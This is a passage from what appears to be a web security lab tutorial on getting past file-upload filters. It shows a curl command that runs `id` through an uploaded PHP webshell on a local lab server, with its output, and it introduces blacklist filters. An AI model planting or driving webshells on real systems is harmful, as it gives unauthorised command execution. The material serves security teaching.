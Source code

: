<figure><img src="../../.gitbook/assets/web_fileUpload_serverSide_3.png" alt=""><figcaption><p>Figure 7: Bypassing both the client-side and server-side filters. </p></figcaption></figure>

Finally, we can interact with the webshell either via the browser or using `curl`.

```bash
$ curl http://localhost/labs/uploads/webshell.php?cmd=id
����uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Blacklists/Whitelists

Sometimes a server-side filter can be based on a whitelist or a blacklist (Figure 8).

<figure><img src="../../.gitbook/assets/web_fileUpload_serverSide_5.png" alt=""><figcaption><p>Figure 8: A blacklist-based server side filter blocking <code>.php</code> file extensions.</p></figcaption></figure>
